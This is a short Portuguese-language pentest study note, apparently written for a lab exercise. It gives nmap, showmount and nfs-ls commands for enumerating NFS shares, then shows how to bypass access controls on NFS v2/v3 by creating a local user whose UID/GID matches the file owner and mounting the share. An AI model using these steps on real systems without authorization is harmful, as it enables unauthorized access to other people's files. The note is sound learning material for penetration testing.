NFS
========================

# Resumo

## Enumeração

 A premissa do NFS é o mesmo do SMB, compartilhar arquivos por meio da rede, acontece que no caso do NFS não é utilizado autenticação e autorização em suas versões 3 e 2, somente um grau de seguranã maior na sua versão 4.
 
 Para explorar essa vulnerabilidade, primeiro precisamos fazer a enumeração do serviço por meio dos seguintes comandos:
 
 
     sudo nmap -sS -p 111,2049 --script nfs-showmount,nfs-ls 10.11.1.72
     #outra possibilidade também pode ser:
     sudo apt update
     sudo apt install libnfs-utils
     #Com isso a gente consegue fazer a enumeração das permissividades dos arquivos em modo recursivo
     nfs-ls -R nfs://10.11.1.72/home
     
     showmount -e 10.11.1.72
     
     nmap -sV -p 111 --script=rpcinfo 10.11.1.1-254


![qownnotes-media-wrgegz](media/qownnotes-media-wrgegz.png)

## Exploitation

Assim que fizermos a enumeração, vamos identificar quais são os IDs pertinenetes aos arquivos lá constados no share via NFS, mas isso só é válido nas versões 2 e 3  do protocolo. A versão 4 já é mais segura! Basta adicionarmos o usuário e o grupo do usuário cujo uid e guid corespondem ao mesmo que foi identificao no momento da enumeração.

    sudo adduser --uid 1014 pwn
    sudo addgroup --gid 1014 pwn_group
    sudo usermod -a -G pwn_group pwn

    mount.nfs -o vers=3 10.11.1.72:/home /tmp/mount_dir
